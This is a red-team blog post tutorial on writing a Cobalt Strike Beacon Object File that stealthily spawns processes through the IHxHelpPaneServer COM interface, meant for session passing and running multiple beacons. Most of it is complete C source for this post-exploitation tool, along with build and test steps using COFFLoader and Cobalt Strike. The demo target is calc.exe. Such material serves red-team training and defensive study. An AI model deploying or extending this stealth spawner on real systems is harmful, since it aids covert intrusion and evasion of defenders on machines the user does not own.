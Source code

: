 ```yaml
---
layout: post
title: COM Process Spawner BOF
date: 2025-01-16 00:05:00 +0100
categories:
  - Red Team
  - Malware
author: kuom
---
```

This guide focuses on developing a Cobalt Strike Beacon Object File (BOF) for creating a COM (Component Object Model) process spawner.
This technique is useful during engagements for session passing and enabling the execution of multiple beacons simultaneously.
The main idea is to stealthily spawn a process in the current context using a legitimate Windows COM interface, `IHxHelpPaneServer`.
### Prerequisites Knowledge
A [Beacon Object File](https://hstechdocs.helpsystems.com/manuals/corects/impact/current/userguide/content/topics/appx_bof.htm) is a compiled C program written to a convention that allows it to execute within an agent process and use internal agent APIs. 
BOFs are a way to rapidly extend the Cobalt Strike agent with new post-exploitation features.

The [Microsoft Component Object Model](https://learn.microsoft.com/en-us/windows/win32/com/the-component-object-model) is a platform-independent, distributed, object-oriented system for creating binary software components that can interact.
### Setting up the environment
There is a nice [Visual Studio BOF template](https://github.com/Cobalt-Strike/bof-vs) to easily develop BOFs.

Download the zip archive from GitHub and put it into `%USERPROFILE%\Documents\Visual Studio 2022\Templates\ProjectTemplates`. 
Now we can choose the BOF template from Visual Studio.
### Creating the BOF
For the creation of this BOF I found inspiration from this [PoC]( https://github.com/vxunderground/VXUG-Papers/blob/main/Stealthily%20Creating%20Processes/IHxHelpPaneServer.cpp.) from VX Underground.
Shoutout to them and to the author.

We start including needed headers file (`combaseapi` needed to work with COM) and by declaring actions to do on Debug case (`#pragma comment` indicates to the linker that ole32.lib is needed).
````
#include <Windows.h>
#include <combaseapi.h>
#include "base\helpers.h"

#ifdef _DEBUG
#include "base\mock.h"
#undef DECLSPEC_IMPORT  
#define DECLSPEC_IMPORT
#pragma comment(lib, "ole32.lib")
#endif
````

C++ linkage mangles function names, which can prevent a Beacon Object File's (BOF) entry point from being correctly invoked. Using `extern "C"` ensures the functions contained in the curly braces have C linkage, avoiding these issues.

We then use the [DFR (Dynamic Function Resolution)](https://hstechdocs.helpsystems.com/manuals/cobaltstrike/current/userguide/content/topics/beacon-object-files_dynamic-func-resolution.htm) convention to declare and call the OLE32 functions that we need in the code:
- `CoInitialize` -> initializes the COM library
- `CoCreateInstance` -> creates an instance of a COM object
- `CLSIDFromString` -> converts string into Class ID, needed to create COM objects
- `CoUninitialize` -> uninitializes the COM library

````
extern "C" {
#include "beacon.h"
    DFR(OLE32, CoInitialize);
#define CoInitialize OLE32$CoInitialize
    DFR(OLE32, CoCreateInstance);
#define CoCreateInstance OLE32$CoCreateInstance
    DFR(OLE32, CLSIDFromString);
#define CLSIDFromString OLE32$CLSIDFromString
    DFR(OLE32, CoUninitialize);
#define CoUninitialize OLE32$CoUninitialize
````

We define the `IHxHelpPaneServer` interface.
````
    struct __declspec(uuid("{8cec592c-07a1-11d9-b15e-000d56bfe6ee}"))
        IHxHelpPaneServer : public IUnknown {
        virtual HRESULT __stdcall DisplayTask(PWCHAR) = 0;
        virtual HRESULT __stdcall DisplayContents(PWCHAR) = 0;
        virtual HRESULT __stdcall DisplaySearchResults(PWCHAR) = 0;
        virtual HRESULT __stdcall Execute(const PWCHAR) = 0;
    };
````

We define a function to convert HRESULT to Win32 error code.
````
    DWORD Win32FromHResult(HRESULT Result) {
        if ((Result & 0xFFFF0000) == MAKE_HRESULT(SEVERITY_ERROR, FACILITY_WIN32, 0))
            return HRESULT_CODE(Result);

        if (Result == S_OK)
            return ERROR_SUCCESS;

        return ERROR_CAN_NOT_COMPLETE;
    }
````

We define a function to initialize the CLSID and IID identifiers associated with the `IHxHelpPaneServer` interface. It uses the `MyCLSIDFromString` function to obtain these identifiers from predefined GUID strings.
```
    HRESULT CoInitializeIHxHelpIds(LPGUID Clsid, LPGUID Iid) {
        HRESULT Result = S_OK;

        if (!SUCCEEDED(Result = CLSIDFromString(L"{8cec58ae-07a1-11d9-b15e-000d56bfe6ee}", Clsid)))
            return Result;

        if (!SUCCEEDED(Result = CLSIDFromString(L"{8cec592c-07a1-11d9-b15e-000d56bfe6ee}", Iid)))
            return Result;

        return Result;
    }
```

The `ComSpawn` function sets up the COM interface by initializing the necessary identifiers and then creates an instance of the `IHxHelpPaneServer` object.  It performs an operation on the object, in this case launching `CALC.EXE` (chosen because the Windows Calculator is commonly found on many Windows installations).  Afterward, it releases the object and uninitializes the COM library. 

The `go` function is the entry point of the program and simply calls `ComSpawn` to execute the logic described above.
```
DWORD ComSpawn() {
        HRESULT Result = S_OK;
        GUID CLSID_IHxHelpPaneServer;
        GUID IID_IHxHelpPaneServer;
        WCHAR pcUrl[256] = L"file:///C:/WINDOWS/SYSTEM32/CALC.EXE";
        IHxHelpPaneServer* Help = nullptr;

        if (!SUCCEEDED(Result = CoInitializeIHxHelpIds(&CLSID_IHxHelpPaneServer, &IID_IHxHelpPaneServer))) {
            return Win32FromHResult(Result);
        }

        if (!SUCCEEDED(Result = CoInitialize(NULL))) {
            return Win32FromHResult(Result);
        }

        if (!SUCCEEDED(Result = CoCreateInstance(CLSID_IHxHelpPaneServer, NULL, CLSCTX_ALL, IID_IHxHelpPaneServer, (PVOID*)&Help))) {
            CoUninitialize();
            return Win32FromHResult(Result);
        }

        Result = Help->Execute(pcUrl);
        if (FAILED(Result)) {
        }
        else {
        }

        if (Help)
            Help->Release();

        CoUninitialize();
        return Win32FromHResult(Result);
    }

    void go(char* args, int len) {
        ComSpawn();
    }
}
```
### Testing the BOF
As mentioned earlier, the Visual Studio BOF template makes it easy to test and debug BOFs directly within the IDE, removing the need for external tools.

We can simply press the Debug button to test our BOF, and it's a good idea to test both the x64 and x86 versions to ensure compatibility across different architectures.
![](/assets/com-spawner1.png)
### Building the BOF
We compile the object files switching from Debug to Release for both x64 and x86 architecture. 

After that, we test them using TrustedSec's COFFLoader, a tool designed to load and execute BOF; this allows us to test the functionality of the compiled BOFs in a controlled environment.

![](/assets/com-spawner2.png)

We can now test it within Cobalt Strike itself. Feel free to utilize this with Cobalt Strike and extend its functionality. 

Currently, I’m developing a new BOF, this time using the `IStandartActivator` COM interface, to facilitate process spawning in alternate sessions instead of the active one.
#### [Full snippet on GitHub](https://github.com/ohkuom/IHxHelpPaneServerBOF/)
